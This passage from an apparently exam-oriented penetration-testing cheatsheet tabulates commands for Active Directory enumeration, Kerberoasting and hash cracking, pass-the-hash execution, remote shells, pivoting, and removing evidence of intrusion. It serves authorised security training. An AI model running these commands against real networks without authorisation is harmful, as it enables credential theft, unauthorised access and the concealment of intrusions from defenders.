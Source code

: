 | **Command** | **Usage / Options** |
|------------|----------------|
| `net user /domain` | Enumerate domain users |
| `net group "Domain Admins" /domain` | List Domain Admins |
| `nltest /dclist:<DOMAIN>` | Get list of domain controllers |
| bloodhound-python -u $USER -p '$PASSWORD' -d $DOMAIN -dc $FQDN -c all -ns $DOMAINIP
 | Collect AD data for BloodHound |

### 7.1 Credential Attacks

| **Command** | **Usage / Options** |
|------------|----------------|
| `GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -request` | Extract service tickets |
| `hashcat -m 13100 kerbhashes.txt rockyou.txt` | Crack Kerberoast hashes |
| `wmiexec.py <DOMAIN>/<USER>@<IP> -hashes <NTLMHASH>` | Authenticate using NTLM hash |

---
## 8. Lateral Movement & Post-Exploitation

| **Command** | **Usage / Options** |
|------------|----------------|
| `evil-winrm -i <IP> -u <USER> -p <PASS>` | Remote PowerShell execution |
| `psexec.py <DOMAIN>/<Administrator>@<IP> -hashes <NTLMHASH>` | Execute commands remotely |
| `ssh -L 8888:127.0.0.1:80 user@pivot_host` | Local port forwarding |
| `proxychains nmap -sT -Pn -p 80,445 10.10.10.5` | Scan through a pivot using proxychains |

---
## 9. Cleanup & Reporting

| **Command** | **Usage / Options** |
|------------|----------------|
| `rm /tmp/shell.py` | Remove evidence on Linux |
| `del C:\Users\Public\winPEAS.exe` | Remove forensic traces on Windows |
| `gnome-screenshot -a` | Take a screenshot for documentation |

---

### 📌 **How to Use This Cheatsheet**
- Use **Ctrl+F** or **grep** to quickly find relevant commands.
- Modify payloads as needed (adjust IPs, ports, and paths).
- Follow exam restrictions: **no automated exploitation tools (e.g., sqlmap, Nessus)**.



